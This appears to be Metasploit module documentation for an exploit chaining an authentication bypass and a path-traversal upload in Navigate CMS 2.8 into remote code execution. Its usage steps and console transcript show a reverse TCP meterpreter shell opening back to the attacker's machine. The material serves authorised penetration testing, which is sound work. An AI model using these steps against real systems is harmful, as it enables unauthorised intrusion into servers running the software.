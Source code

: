 ## Description

This module exploits insufficient sanitization in the database::protect method, of Navigate CMS versions 2.8 and prior, to bypass authentication.
It then uses a path traversal vulnerability in navigate_upload.php that allows authenticated users to upload PHP files to arbitrary locations.
Together these vulnerabilities allow an unauthenticated attacker to execute arbitrary PHP code remotely.

This module was tested against Navigate CMS 2.8.

## Verification Steps

[Navigate CMS 2.8](https://master.dl.sourceforge.net/project/navigatecms/releases/navigate-2.8r1302.zip)

## Verification Steps

1. Install Navigate CMS
2. Start `msfconsole`
3. `use exploit/multi/http/navigate_cms_rce`
4. `set RHOST <rhost>`
5. `check`
6. You should see `The target appears to be vulnerable.`
7. `exploit`
8. You should get a meterpreter session

## Scenarios

### Navigate CMS on Ubuntu 18.04

```
msf > use exploit/multi/http/navigate_cms_rce
msf exploit(multi/http/navigate_cms_rce) > set RHOST 192.168.178.45
RHOST => 192.168.178.45
msf exploit(multi/http/navigate_cms_rce) > check
[*] 192.168.178.45:80 The target appears to be vulnerable.
msf exploit(multi/http/navigate_cms_rce) > exploit

[*] Started reverse TCP handler on 192.168.178.35:4444 
[+] Login bypass successful
[+] Upload successful
[*] Triggering payload...
[*] Sending stage (37775 bytes) to 192.168.178.45
[*] Meterpreter session 1 opened (192.168.178.35:4444 -> 192.168.178.45:52720) at 2018-09-26 22:24:59 +0200

meterpreter > 
```
